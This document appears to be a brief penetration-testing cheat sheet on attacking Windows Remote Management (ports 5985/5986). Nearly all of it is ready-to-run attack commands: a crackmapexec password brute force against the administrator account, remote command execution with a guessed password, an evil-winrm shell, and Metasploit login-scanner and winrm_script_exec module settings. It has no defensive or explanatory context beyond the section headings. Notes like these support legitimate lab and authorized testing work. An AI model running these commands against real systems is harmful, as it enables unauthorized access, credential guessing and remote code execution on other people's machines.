 # Exploiting WinRM (Windows Remote Management) -5985


__brute force attack__
- `crackmapexec winrm <target ip> -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`


__executing__
- `crackmapexec winrm 10.5.17.237 -u administrator -p tinkerbell -x "dir"`


__Getting command shell__
- `evil-winrm.rb -u administrator -p 'tinkerbell' -i <target ip>`

__automatic__
```
service postgresql start && msfconsole
use exploit/windows/winrm/winrm_script_exec
set rhost,username,password
exploit
```


# Exploiting WinRM (5985 and 5986)
```
msfconsole
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```
```
use auxiliary/scanner/winrm/winrm_cmd
```

```
search winrm
use exploit/windows/winrm/winrm_script_exec
set rhosts <target_ip>
set username administrator
set password password@123
set FORCE_VBS true
```


